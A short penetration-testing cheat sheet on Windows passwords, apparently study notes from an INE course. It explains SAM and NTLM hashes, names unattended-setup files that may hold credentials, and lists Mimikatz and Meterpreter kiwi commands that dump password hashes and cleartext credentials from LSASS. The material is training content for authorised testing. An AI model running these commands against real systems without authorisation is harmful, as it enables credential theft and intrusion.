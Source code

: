 # Windows Passwords

* [Hashes](#hashes)
* [Windows Configuration Files](#windows-configuration-files)
* [Mimikatz](#mimikatz)
* [Metasploit / Meterpreter](#metasploit--meterpreter)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Hashes

* Stored in Security Accounts Manager (SAM) database.
* Authentication and verification is facilitated by the Local Security Authority (LSA).
   * Elevated/Administrative Privileges are required to interact with LSASS process.

* Two types of hashes:
   * LM (LanMan)
      * LM is disabled from Windows Vista onwards.
   * NTLM (NTHash)
      * Modern Windows use NTLM.
      * No password salts
      * Uses MD4 Algorithm

**************************************

## Windows Configuration Files

### Unattended Windows Setup

* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Autounattend.xml
* Config files may be base64 encoded

**************************************

## Mimikatz

* Requires admin privileges to run correctly.

```
mimikatz.exe
```

Check Privileges (Need: Privilege '20' OK):
```
privilege::debug
```

Impersonate privileges to system level:
```
token:elevate
```

Dump SAM database / hashes for all users:
```
lsadump::sam
```

Possibly dump clear text creds:
```
lsadump::secrets
```
```
sekurlsa::logonpasswords
```


## Metasploit / Meterpreter

```
migrate [LSASS-PID]
```
```
load kiwi
```
Help menu:
```
?
```
Retrieve all credentials (parsed):
```
creds_all
```
Dump hashes for all users:
```
lsa_dump_sam
```
Possibly dump clear text creds:
```
lsa_dump_secrets
```

**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2

